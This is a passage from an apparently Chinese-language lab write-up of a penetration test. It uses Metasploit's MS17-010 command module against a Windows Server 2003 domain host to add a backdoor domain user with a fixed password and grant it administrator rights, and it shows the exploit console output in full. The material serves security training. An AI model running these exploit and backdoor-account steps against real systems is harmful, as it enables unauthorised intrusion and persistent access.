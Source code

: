 ```bash

   Connection-specific DNS Suffix  . : 
   IP Address. . . . . . . . . . . . : 192.168.52.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.52.2


[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```



照理来说，前面创建后门的时候创建的perry用户是再GOD下的，所以这里应该也可以不建，但保险起见也可以再建一次

> net user /add perry Aa123456 /domain
>
> net localgroup administrators /add god\perry

```
msf6 auxiliary(admin/smb/ms17_010_command) > set command net user /add perry Aa123456 /domain
command => net user /add perry Aa123456 /domain
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x87a02ae0
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "net user /add perry Aa123456 /domain":

The request will be processed at a domain controller for domain god.org.



[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf6 auxiliary(admin/smb/ms17_010_command) > set command net localgroup administrators /add god\\perry
command => net localgroup administrators /add god\perry
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
```